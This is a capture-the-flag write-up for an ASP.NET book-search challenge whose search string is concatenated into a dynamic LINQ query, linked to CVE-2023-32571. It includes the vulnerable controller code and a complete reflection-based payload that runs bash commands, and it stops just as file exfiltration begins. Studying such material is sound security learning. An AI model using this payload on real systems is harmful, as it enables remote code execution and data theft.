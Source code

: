### Intruder

This challenege made use of a LINQ rce to exfiltrate data. A new thing i came across was the use of dnSpy/iLspy for reverse engineering compiled dlls

In the website there are 2 options- to view books or to add them. the adding function doesnt work but when we try to view and enter a " in the search box, an error appears
```Something wrong happened while searching!```. Hence time to look at src code

A Dynamic Link Library (DLL) is a type of executable file in Windows that contains reusable code, data, and resources that can be used by multiple programs at once. 
DLLs allow developers to create modular and efficient code, and share resources between different applications.

The source code had a number of dlls. Hence we had to go to the dockerfile.
In Dockerfile, the entry point is this bash command:
```
ENTRYPOINT ["dotnet", "CRUD.dll"]
```
[In Dockerfiles, an ENTRYPOINT instruction is used to set executables that will always run when the container is initiated.]

In this whenn we search for the code for book searching functionality, we’ll find it in class BookController method Index:
```
 public IActionResult Index(string searchString, int page = 1, int pageSize = 5)
    {
        try
        {
            IQueryable<Book> query = _books.AsQueryable();
            if (!string.IsNullOrEmpty(searchString))
            {
                query = query.Where("Title.Contains(\"" + searchString + "\")");
            }
            int totalItems = query.Count();
            int totalPages = (int)Math.Ceiling((double)totalItems / (double)pageSize);
            List<Book> books = query.Skip((page - 1) * pageSize).Take(pageSize).ToList();
            BookPaginationModel viewModel = new BookPaginationModel
            {
                Books = books,
                TotalPages = totalPages,
                CurrentPage = page
            };
            return View(viewModel);
        }
        catch (Exception)
        {
            base.TempData["Error"] = "Something wrong happened while searching!";
            return Redirect("/books");
        }
    }
```
It directly concatenates our searchString GET parameter’s value into query.Where:
The Where method belongs to LINQ (Language Integrated Query).

Language-Integrated Query (LINQ) is the name for a set of technologies based on the integration of query capabilities directly into the C# language. Traditionally, queries against data are expressed as simple strings without type checking at compile time or IntelliSense support. Furthermore, you have to learn a different query language for each type of data source: SQL databases, XML documents, various Web services, and so on. With LINQ, a query is a first-class language construct, just like classes, methods, and events. - https://learn.microsoft.com/en-us/dotnet/csharp/linq/

If we Google something like “LINQ vulnerability”, we can see a blog post mentioned that dynamic LINQ injection could result in RCE  The vulnerability is CVE ID “CVE-2023-32571”acc to which LINQ version 1.0.7.10 to 1.2.25 is vulnerable to that vulnerability. 
```"System.Linq.Dynamic.Core": "1.2.25"```
Hence we found the vuln

The paylaod given to bypass it is:
```
"".GetType().Assembly.DefinedTypes.Where(it.Name == "AppDomain").First().DeclaredMethods.Where(it.Name == "CreateInstanceAndUnwrap").First().Invoke("".GetType().Assembly.DefinedTypes.Where(it.Name == "AppDomain").First().DeclaredProperties.Where(it.name == "CurrentDomain").First().GetValue(null), "System, Version = 4.0.0.0, Culture = neutral, PublicKeyToken = b77a5c561934e089; System.Diagnostics.Process".Split(";".ToCharArray())).GetType().Assembly.DefinedTypes.Where(it.Name == "Process").First().DeclaredMethods.Where(it.name == "Start").Take(3).Last().Invoke(null, "bash;-c <command-here>".Split(";".ToCharArray()))
```

Hence modifying to exfltrate our files:
first
